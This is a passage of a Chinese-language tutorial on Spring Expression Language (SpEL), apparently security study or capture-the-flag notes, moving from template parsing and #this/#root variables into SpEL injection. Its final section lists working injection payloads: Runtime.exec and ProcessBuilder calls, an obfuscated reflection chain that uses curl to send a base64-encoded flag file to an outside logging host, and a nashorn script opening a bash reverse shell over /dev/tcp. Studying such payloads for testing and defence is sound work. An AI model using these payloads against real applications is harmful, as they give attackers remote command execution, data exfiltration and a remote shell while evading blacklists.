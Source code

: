 ```java
String randomPhrase = parser.parseExpression(
		"random number is #{T(java.lang.Math).random()}",
		new TemplateParserContext()).getValue(String.class);
```

结果：`random number is xxxx`



### 变量

 表达式中的变量可以通过语法#变量名使用。变量可以在StandardEvaluationContext中通过方法setVariable设置。 



#### this和root变量

 \#this变量永远指向当前表达式正在求值的对象（这时不需要限定全名）。变量#root总是指向根上下文对象。#this在表达式不同部分解析过程中可能会改变，但是#root总是指向根 



### 易错点

T()和new一个类时 除了java.lang下的类，其他类都要需要需要限定包全名



## SpEL导致的任意命令执行

### 常用payload

```
T(java.lang.Runtime).getRuntime().exec("nslookup a.com")
T(Thread).sleep(10000)
#this.getClass().forName('java.lang.Runtime').getRuntime().exec('nslookup a.com')
new java.lang.ProcessBuilder({'nslookup a.com'}).start()
```



利用反射构造绕过黑名单

```
#{T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"/bin/bash","-c","curl fg5hme.ceye.io/`cat flag_j4v4_chun|base64|tr '\n' '-'`"})}
```



利用ScriptEngineManager构造绕过黑名单

```java
#{T(javax.script.ScriptEngineManager).newInstance()
    .getEngineByName("nashorn")
        .eval("s=[3];s[0]='/bin/bash';s[1]='-c';s[2]='ex"+"ec 5<>/dev/tcp/1.2.3.4/2333;cat <&5 | while read line; do $line 2>&5 >&5; done';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")}
```
